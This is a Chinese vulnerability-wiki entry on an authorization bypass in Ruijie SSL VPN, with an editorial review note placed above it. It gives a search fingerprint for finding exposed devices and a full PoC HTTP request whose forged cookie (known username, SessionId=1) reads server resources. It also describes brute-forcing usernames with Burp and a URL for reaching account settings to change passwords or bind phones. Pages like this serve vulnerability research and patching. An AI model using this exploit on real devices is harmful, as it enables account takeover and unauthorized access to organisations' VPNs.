





# 锐捷 SSL VPN 越权访问漏洞

> 版本字段校订（2026-10-04）：代码、命令、路径、产品名或章节标记误入版本字段的值已逐字保存到对应 `previous_*` 字段；当前版本字段只记正文明确的来源范围，无范围时记为 unknown。后文对此元数据误填的旧说明描述校订前状态，其余实验条件与待核项仍按原文保留。

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Ruijie SSL VPN
- 本文讨论：可控UserName和固定SessionId越权访问资源/账户设置
- 版本、权限与配置前提：必须已知有效用户名或枚举获得；SessionId=1；未列版本
- 资料类型：认证绕过/账户变更链；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- getrsc读取资源请求完整，但改密/绑手机只有GUI说明与截图，无实际变更请求
- 示例用户名xm切liuw且URL重复oper=showsvr/showres，解析优先级未讲
- 不应省略已知用户名条件，枚举方法无响应差异判据
- 已落实的文本修订：HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 是否确能提交账号修改、固件与修复待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

Ruijie SSL VPN 存在越权访问漏洞，攻击者在已知用户名的情况下，可以对账号进行修改密码和绑定手机的操作。并在未授权的情况下查看服务器资源

参考阅读：

- https://mp.weixin.qq.com/s?__biz=MzU1NTkzMTYxOQ==&mid=2247484601&idx=1&sn=d6d6f4496243d98e688667faff137973

## 漏洞影响

```
Ruijie SSL VPN
```

## 网络测绘

```
icon_hash="884334722" || title="Ruijie SSL VPN"
```

## 漏洞复现

访问目标 http://xxx.xxx.xxx.xxx/cgi-bin/installjava.cgi





POC请求包如下

```http
GET /cgi-bin/main.cgi?oper=getrsc HTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: close
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: UserName=xm; SessionId=1; FirstVist=1; Skin=1; tunnel=1
```

其中注意的参数为

```plain
Cookie: UserName=xm; SessionId=1; FirstVist=1; Skin=1; tunnel=1
```

UserName 参数为已知用户名

在未知登录用户名的情况下 漏洞无法利用(根据请求包使用Burp进行用户名爆破)




用户名正确时会返回敏感信息




通过此方法知道用户名后可以通过漏洞修改账号参数

访问 http://xxx.xxx.xxx.xxx/cgi-bin/main.cgi?oper=showsvr&encode=GBK&username=liuw&sid=1&oper=showres




点击个人设置跳转页面即可修改账号信息




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
